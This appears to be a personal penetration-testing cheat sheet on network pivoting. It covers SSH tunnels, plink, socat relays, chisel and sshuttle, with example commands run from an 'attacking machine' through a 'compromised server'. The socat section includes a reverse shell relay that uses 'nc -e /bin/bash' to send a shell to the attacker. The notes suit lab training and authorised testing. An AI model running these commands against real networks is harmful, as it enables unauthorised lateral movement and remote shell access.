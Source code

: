 ```yaml
---
layout: default
---
```

# Pivoting

Pivoting is the art of using access obtained over one machine to exploit another machine deeper in to the network

Two Main method to do pivioting ;:
→ Tunneling/proxying → creating a proxy type connection through a compromised machine in order to route all desired traffic in to the targeted system.This could also be tunnelled inside another protocole (eg SSH tunnelling), which can be useful to evade basic IDS or firewall.
→ Port Forwarding → Creating a connection between a local port and single port on a target via compromised host.

Proxy is good if we want to redirect lots of different kind of traffic into our target network (example nmap scan)
Port forwading is faster and reliable but only allows us to access single port on a target device

## ProxyChains,FoxyProxy

In /etc/proxychains.conf comment out the proxy_dns line which can cause a scan to hang and ultimately crash
→ We can only use TCP scans -- so no UDP or SYN scans. ICMP echo packets will also not work through the proxy, so use -Pn switch
→ It will be extremely slow. 

## SSH Tunneling

Forward Connections → It is done when we have ssh access to the target

There are two ways to do it ::
1) → Port Forwading → it is done using -L switch which creates a link to a local port.
```
Example :: 
ssh access server → 172.16.0.5
web server running → 172.16.0.10
Command → ssh -L 8000:172.16.0.10:80 user@172.16.0.5 -fN
-fN → backgrounds the shell so that we have our terminal back and N tells that it does not need to execute any commands only set up connection.
```
We could then access the website on 172.16.0.10 (through 172.16.0.5) by navigating to port 8000 on our own attacking machine (localhost:8000).

2) → Proxies → Proxies are made using the -D switch 
```
Example :: 
-D 1337 → This will open up port 1337 on our attacking box as a proxy to send data through in to the protected network.Useful when combined with proxychains
Command → ssh -D 1337 user@172.16.0.5 -fN
```
Reverse Connection → Risky do not do it

## Plink.exe

It is a windows command line version of the PUTTY ssh client . Now windows comes with its own ssh client.

Syntax of command → cmd.exe /c echo y | .\plink.exe -R LOCAL_PORT:TARGET_IP:TARGET_PORT USERNAME@ATTACKING_IP -i KEYFILE -N
cmd.exe /c echo y → is for non-interactive shells (like mose reverse-shells).

```
Example ::
we have  access → 172.16.0.5
web server running → 172.16.0.10
command → cmd.exe /c echo y | .\plink.exe -R 8000:172.16.0.10:80 kali@172.16.0.20 -i KEYFILE (id_rsa) -N
```
Note → any keys generated with ssh-keygen will not work here we need to convert them using puttygen tool
command → puttygen KEYFILE -o OUTPUT_KEY.ppk

## SOCAT
### Reverse shell Relay ::

On our attacking box     → nc -lvnp 443
On compromised server → ./socat tcp-l:8000 tcp:attacking-ip:443 & 
```
Example :: 
[root@prod-server]# ./socat tcp-l:8000 tcp:10.50.73.2:443 & → listen on  8000 and send traffic to attacker 443
[root@prod-server]# chmod +x ./nc
[root@prod-server]# ./nc 127.0.0.1 8000 -e /bin/bash → here we connect to the server 8000 which will direct it to attacker 443
````
### Forwarding PORT NOISY:: 
compromised server → 172.16.0.5
target server and port → 172.16.0.10:3306

command → ./socat tcp-l:33060,fork,reuseaddr tcp:172.16.0.10:3306 &
This opens up a port 33060 in compromised server and redirects the input from the attacking machine straight to the intended target server giving us access to the port 3306 (maybe MYSQL) running on th target.
fork → fork in used to put every connection in to the new process
reuseaddr → means that the port stays open after the connection is made to it.

### Forwarding Port Quiet ::
Previous techinque opens up a port in compromised server which can be noisy and detectable
``
Attacking machine → socat tcp-l:8001 tcp-l:8000,fork,reuseaddr &
```
open up two port 8001 and 8000 creating a local port relay what goes in to one comes out into another. For this reason port 8000 has fork and reuseaddr to create more than one connection using the port forward
```
Compromised relay server (172.16.0.5) → ./socat tcp:Attacking_ip:8001 tcp:TARGET_IP(172.16.0.10):TARGET_PORT(80),fork &
```
this makes connection between our listening port 8001 on the attacking machine and open port of the target server.
we could go localhost:8000 in our attacking machine web browser to load the webpage served by the target (172.16.0.10:80)

What happens when we access the webpage in browser ::
1) → The request goes to 127.0.0.1:8000
2) → Due to socat listening on it anything goes in to 8000 comes out of port 8001
3) → Port 8001 is connected to socat process of the compromised server where it gets relayed to the port 80 of the target server

When target sends response :::
1) the response is sent to the socat process on the compromised server.What goes in to the process comes out at the other side, which happens to link straight to port 8001 on our attacking machine
2) Anything that goes in to port 8001 of out attacking machine comes out of 8000 on our attacking machine, which is where the webbrowser is expecting to receive the response.

TO close ::
1) jobs
2) kill %1

## CHISEL
It is a tool used to set up tunneling proxy or port forward through a compromised system regardless of whether we have ssh access or not.
It has two modules ;:
server
client

### Reverse SOCKS Proxy ::
This connects back from a compromised server to a listener waiting on our attacking machine.
```
Attacking box → ./chisel server -p LISTEN_PORT --reverse &
THis sets up listener on our chosen port

Compromised Server → ./chisel client ATTACKING_IP:LISTEN_PORT R:socks &
THis command connects back to the waiting listener on our attacking box ,completing the proxy. 
```
### Forward SOCKS PROXY ::
Rarer then reverse proxies same as reverse shell common than bind shell
```
Compromised host → ./chisel server -p LISTEN_PORT --socks5
Attaking host →  ./chisel client TARGET_IP:LISTEN_PORT PROXY_PORT:socks
PROXY_PORT will be the port that will be opened for the proxy
```
> we need to edit /etc/proxychains.conf file → socks 127.0.0.1 1080

### Remote Port Forward ::
A remote port forward is when we connect back from a compromised target to create the forward

Attacking Machine → ./chisel server -p LISTEN_PORT --reverse &
Compromised Mac → ./chisel client ATTACKING_IP:LISTEN_PORT R:LOCAL_PORT:TARGET_IP:TARGET_PORT &
LISTEN_PORT → the port we started the chisel server on
LOCAL_PORT → the port we wish to open on our attacking machine to link with the desired target port 
```
Compro server → ./chisel_client 172.16.0.20:1337(our IP) R:2222:172.16.0.10:22(target_ip) &
Attack machine → ./chisel_server -p 1337 --reverse &
This would allow us to access 172.16.0.22 by navigating to 127.0.0.1:2222
```
### Local Port Forward:: 
It is where we connect from our own attacking machine to a chisel server listening on a compromised target.

Compromised target → ./chisel server -p LISTEN_PORT 
attacking box → ./chisel client LISTEN_IP:LISTEN_PORT LOCAL_PORT:TARGET_IP:TARGET_PORT

## SSHUTTLE 
It uses ssh connection to create a tunnelled proxy that acts like a new interface.It allows use to route our traffic through proxy without proxychains.

cons::
1) it only works on linux targets
2) it requires access to the compromised server via ssh also python also needs to be installed on the server.

```
use → sshuttle -r user@address subnet
example → sshuttle -r user@172.16.0.5(comp host) 172.16.0.0/24

we can also use -N rather than specifying subnet to determine them automatically based on the compromised server own's routing table
example → sshuttle -r username@address -N → may not always be successful

Using Private Key file ::
use → sshuttle -r user@address --ssh-cmd “ssh -i KEYFILE” subnet
example → sshuttle -r user@172.16.0.5 --ssh-cmd “ssh -i private_key" 172.16.0.0/24

When encountering "client: fatal: server died with error code 255" error ::
use → sshuttle -r user@172.16.0.5 172.16.0.0/24 -x 172.16.0.5
-x → to exclude
```

